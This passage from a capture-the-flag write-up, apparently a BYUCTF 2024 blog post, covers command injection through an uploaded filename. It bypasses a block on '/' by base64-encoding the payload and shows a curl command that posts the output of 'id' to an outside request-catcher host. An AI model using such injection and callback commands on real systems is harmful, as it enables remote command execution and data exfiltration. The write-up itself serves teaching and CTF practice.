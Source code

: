 ![image](/assets/img/byuctf24/no-req-2.png)

Well, the answer is no :')

If we look at the underlying request, we see that there is actually an issue with the filename.
![image](/assets/img/byuctf24/invalid_filename.png)

By the way, it is not possible to use `/` in the filename, and thus in our payload. It is therefore not possible to use commands such as `cat /flag.txt`. Damn, that will makes things a bit harder.

A simple trick to circumvent this is to base64 encode the payload :
![image](/assets/img/byuctf24/b64-encode-trick.png)

We encode our callback payload :
```bash
curl -X POST -d "$(id)" https://happi.requestcatcher.com/test
```

and this time, we finally get a callback !

![image](/assets/img/byuctf24/callback1.png)
